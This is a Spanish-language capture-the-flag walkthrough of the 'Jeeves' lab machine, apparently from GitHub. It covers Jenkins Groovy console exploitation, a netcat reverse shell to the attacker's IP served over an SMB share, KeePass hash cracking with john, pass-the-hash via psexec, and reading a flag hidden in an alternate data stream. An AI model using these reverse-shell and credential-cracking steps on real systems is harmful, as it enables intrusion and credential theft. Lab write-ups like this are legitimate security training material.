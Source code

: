 # Jeeves


**Sistema Operativo**: Windows

**Dificultad**: Media

**Técnicas Vistas**:  Jenkins Exploitation (Groovy Script Console) /
RottenPotato (SeImpersonatePrivilege) /
PassTheHash (Psexec) /
Breaking KeePass /
Alternate Data Streams (ADS)

Te prepara para las **Certificaciones**: OSCP / 
eJPT / 
eWPT / 
eCPPTv3<br>

![image](https://github.com/user-attachments/assets/f03f382b-4cd6-462b-8960-d4dfc68d021d)<br><br>



# Reconocimiento

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/929e7743-8514-4877-a00b-43313e1e9797)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

Utilizando `gobuster` encontramos un directorio "askjeeves"

![image](https://github.com/user-attachments/assets/6f2633b4-8164-4c1b-82a6-2a7d8d554b04)

- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe


# Explotación Jenkings

En `http://10.10.10.63:50000/askjeeves/script` encontramos esta consola de comados que acepta Groovy<br>

https://stackoverflow.com/questions/159148/groovy-executing-shell-commands

![image](https://github.com/user-attachments/assets/d48da70b-f566-402d-a60c-0f1098507893)<br><br>

- Transferimos el `nc.exe` y nos mandamos una consola interactiva a nuestra ip por el puerto 443 `-e cmd 10.10.14.55`
- Compartimos el archivo nc.exe `impacket-smbserver smbFolder $(pwd) -smb2support`
- Nos ponemos en escucha con `rlwrap nc -nlvp 443`<br>

![image](https://github.com/user-attachments/assets/4a788cef-d9d0-450d-90e4-2933d3f1ee94)<br><br>


# Escalamos privilegios

Encontramos la Flag User:<br>

![image](https://github.com/user-attachments/assets/2b5975ad-8aa0-4689-a1ba-ff42828c31b4)<br><br>

En `C:\Users\kohsuke\Documents` vemos  un archivo `CEH.kdbx` el cual nos transferimos a nuestra maquina de atacante.<br>

![image](https://github.com/user-attachments/assets/f3950b81-0b70-4b81-a6fd-1e7e23af35cc)<br>

- `.kdbx` -> Es una extensión Keypass que es un gestor de contraseña<br><br>


Utilizando `john` rompemos el hash<br>

![image](https://github.com/user-attachments/assets/4d0872b9-49a0-4f50-815f-3c5f86efcbc7)<br>

- `keepass2john` CEH.kdbx > hash    -> Nos da el hash para romper la contraseña
- `john -w:/usr/share/wordlists/rockyou.txt` hash   -> Rompemos el hash creado<br><br>


Hacemos un `apt install keepassxc` y luego abrimos con `keepassxc CEH.kdbx`<br>

![image](https://github.com/user-attachments/assets/82785ae2-e2e6-45ad-84b6-03369ce3128a)<br><br>


Le copiamos la contraseña a `backup stuff` y hacemos vemos la contraseña la cual podemos aplicarle un `pass-the-hash`<br>

![image](https://github.com/user-attachments/assets/f9003735-12ee-4639-bc3c-1aab19a2d7fe)<br><br>


Nos pone `Pwn3d!` la credencial es correcta<br>
![image](https://github.com/user-attachments/assets/5089f827-ee55-4f59-bf00-b506f757a740)<br><br>

Hacemos el `pass-the-hash` con `psexec.py`<br>

![image](https://github.com/user-attachments/assets/f97acbce-88d6-4411-9da2-5a9d6692c108)<br><br>


Vemos directorios ocultos `dir /r /s` y con `more < hm.txt:root.txt` lo leemos. <br>

- Flag Final<br>

![image](https://github.com/user-attachments/assets/8b870360-8f59-498b-a499-67e77999e52d)<br><br>
